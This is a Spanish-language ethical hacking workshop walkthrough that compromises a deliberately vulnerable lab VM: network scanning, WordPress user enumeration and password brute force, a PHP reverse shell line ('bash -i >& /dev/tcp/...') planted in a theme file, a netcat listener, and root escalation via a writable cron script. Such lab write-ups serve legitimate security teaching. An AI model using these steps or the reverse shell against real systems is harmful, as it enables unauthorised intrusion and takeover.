 
![](http://cms-site.inacap.cl/Assets/portal/img/logo-negro.png)

# Taller de Hacking Ético - Los Ángeles - Julio 2018. 

El fin de este taller práctico consiste en dar a conocer ciertas técnicas que permiten vulnerar la seguridad de serviodes/servicios. Con ello poder dotar del conocimiento necesario para que los asistentes, puedan asegurar su propia infraestructura. Este taller es desarrollado solo con fines educacionales.

Particularmente se trabajará con los siguientes recursos:

1. Un equipo capaz de correr dos máquinas virtuales.
1. 20 GB de espacio libre en Disco.
1. VirtualBox Pre-Instalado.
1. [Kali Linux](https://www.kali.org/downloads/) para su arquitectura.
1. Maquina virtual Vulnerable [Descarga](https://www.dropbox.com/s/j3r9l7kaydwsdm9/BSides-Vancouver-2018-Workshop.ova)
1. Las máquinas virtuales deben estar en una red común para poder conectarse.

El objetivo principal consiste en ganar permisos de super usuario (ROOT) sobre la máquina victima.

Dentro de un proceso de análisis de vulnerabilidades, es necesario seguir una metodología que permita hacer que el proceso sea repetible. Por ello, el ataque se separa en las siguientes fases Recolección/Enumeración, Análisis, Explotación y Documentación.

## Fase de Recolección de Información y Enumeración

Dentro de esta fase, es necesario tener en cuenta los datos de la máquina atacante como de la victima. Lograr la mayor cantidad de información del objetivo mediante la obtención de datos desde fuentes abiertas como desde escaneos pasivos y activos.
En este caso particular, trabajamos con una máquina virtual, por lo que pasaremos directamente al escaneo activo.
Desde el punto de vista del atacante es necesario conocer la IP del segmento de red al que está conectado. Una vez obtenida esa IP podemos revisar otras IPs correspondientes a máquinas vulnerables.
El comando en Linux para revisar la IP es: `ifconfig` este comando debe ser ejecutado en una consola de comandos, tal como se muestra a continuación.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/1-ifconfig.gif)

Una vez que ya tenemos nuestra propia IP, debemos revisar nuestro entorno de red mediante la famosa herramienta nmap.
Usamos el comando en consola de la siguiente manera:

`# nmap 10.0.2.0/24 -T4 -sS`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/2-nmapRed.gif)

Recordar que los parámetros `-T4` hacen un escaneo rápido y `-sS` permite identificación de servicios asociados a los puertos.
Como podemos ver en la salida del comando, se encontró la IP `10.0.2.8` con 3 puertos abiertos: `21, 22 y 80`.
Como primer paso abrimos un navegador en Kali Linux y verificamos el sitio existe en la IP victima (puerto 80).

Lo único que encontramos, es la típica página indicando que existe un servidor web y se encuntra funcionando.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/3-webhttp.gif)

Luego, entramos a verificar si existen archivos interesante en el servidor http. Esto se hace mediante el conjunto de herramientas o scripts del mismo nmap.
usaremos el comando siguiente: `# nmap -script http-enum 10.0.2.8`

Este comando nos permite enumerar mediante fuerza bruta, los archivos presentes en el sitio web.

Si miramos con atención la salida del comando, nos damos cuenta que hay un archivo denominado `robots.txt`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/4-http-enum.gif)
 
Una vez más, abrimos el navegador e introducimos la siguiente URL`10.0.2.8/robots.txt`.
Es importante recordar que el archivo robots.txt se deja en los servidores web, como manera de indicarle a los motores de búsqueda que NO indexen el contenido presente en dicho documento.

Finalmente comprobamos la existencia de un Wordpress hosteado en la máquina victima.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/5-robotsTxt.png)

El sitio wordpress se encuentra en `10.0.2.8/backup_wordpress`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/6-WordPress.png)

## Fase de Análisis
Bueno, a esta altura ya conocemos nuestra IP `10.0.2.5` y la IP de la victima `10.0.2.8`, además sabemos que hostea un sitio en wordpress. También se nos indica que el wordpress está desactualizado.

Acá comenzamos a planear la estrategia y los diferentes escenarios de ataques. 
Como sabemos, wordpress es una herramienta que permite implementar blogs y sitios de manera simple. Adicionalmente permite ser extendido mediante el uso de diferentes plugins. Muchas veces esos plugins introducen brechas de seguridad al ser instalados o simplemente se usan contraseñas débiles para acceder a la administración del Wordpress `10.0.2.8/backup_wordpress/wp-admin`.

Dentro de la distribución Kali Linux existe una herramienta denominada WPSCAN que nos permitirá auditar el sitio wordpress.
Justamente esto utilizaremos en la etapa de explotación.

## Fase de Explotación

Mediante WPSCAN procedemos a auditar el sitio worpress usando los parámetros específicos para enumerar usuarios.

`# wpscan -u 10.0.2.8/backup_wordpress --enumerate u`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/7-enumeracionUsuarios.gif)

La herramienta nos entrega dos usuarios y sus respectivas contraseñas:

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/8-UsuariosWP.png)

Intentamos loguearnos en `10.0.2.8/backup_wordpress/wp-admin` pero ninguno de los usuarios y sus respectivas contraseñas funcionan.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/9-LoginWordpress.png)

Pero como ya tenemos los usuarios, procedemos a implementar un ataque de fuerza bruta. 
Nos ayudamos de la misma herramienta WPSCAN para proceder con este ataque, sobre el usuario Admin.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/10.1-bruteforceAdmin.gif)

Acá queda de manifiesto que no existe una constraseña que nos permita ingresar con la cuenta `admin`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/10.2-bruteforceAdmin.png)

Ahora procedemos a probar con el otro usuario `john`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/11-password.png)

Acá si tenemos éxito, logrando la clave `enigma` para el usuario `john`

Procedemos a loguear en la administración del sitio wordpress con el usuario y clave ingresado.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/12-accesoWP.png)

Entramos al editor del tema de wordpress. Acá podemos modificar los archivos PHP directamente en el navegador web.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/13-EditorWP.png)

Ponemos un regalito [Shell reversa para php](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) en el `comments.php` y guardarmos el archivo. La shell reversa que usaremos es un trozo de código PHP que se ejecutará en la máquina victima. Una vez que visitemos uno de los comentarios del Wordpress ese trozo de código intentará conectarse a la máquina atacante `10.0.2.5` en un puerto específico `1234`. Para ello debemos preparar un listener en la máquina atacante que recibirá y manejará la conexión remota.

La shell reversa en PHP es: `exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.5/1234 0>&1'");`

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/14-ShellReversaPhp.png)

Finalmente recibimos la conexión remota en el Kali Linux mediante el siguiente comando:
`nc -lvp 1234`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/15-AccesoShell.gif)

Como ya contamos con acceso a la máquina victima, estamos un paso mas cerca de nuestro objetivo: Ser Root!
Para ello se deben utilizar técnicas de [escalación de privilegios](https://www.icann.org/news/blog/que-es-el-escalonamiento-de-privilegios). Para tratar de acortar un poco este material que ya es bastante extenso, diré que dentro de los sistemas operativos Linux, existen tareas recurrentes que se automatizan haciendo uso de Cron. Este proceso toma archivos y los ejecuta cada cierto periodo de tiempo. Resulta que en el caso de nuestra victima, existe un archivo que ha sido puesto para borrar logs. Estos logs son borrados recurrentemente. El gran problema reside en que ese archivo cuenta con permisos elevados, de hecho permisos de super usuario o root y puede ser modificado por cualquiera.

El archivo se encuentra en el directorio: `/usr/local/bin/cleanup`

Con la conexión reversa ya establecida, procedemos a utilizar el comando cat para visualizar el contenido del archivo

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/16-Cleanup.png)

Entonces usaremos este archivo para generar una shell reversa con los persmisos de root. Para lograr este cometido, debemos pasar un archivo con la shell reversa en Python y luego reemplazar el contenido del archivo cleanup con la shell reversa.

Para pasar el archivo, levantamos un servidor http en Kali Linux mediante la instrucción `service apache2 start` y procedemos a crear un archivo con el código fuente en Python de una shell reversa, que apunte a la IP `10.0.2.5` y al puerto `1111`.

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/17-ShellReversaPython.png)

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/18-SetReverseShell.png)

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/19-whoami.gif)

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/20-cambioClaveRoot.gif)

![](https://github.com/academiasIT/ciberseguridad/blob/master/img/21-root.gif)

## Fase de Documentación



@agustin_salas_f
[Universidad Tecnológica de Chile INACAP](http://www.inacap.cl).
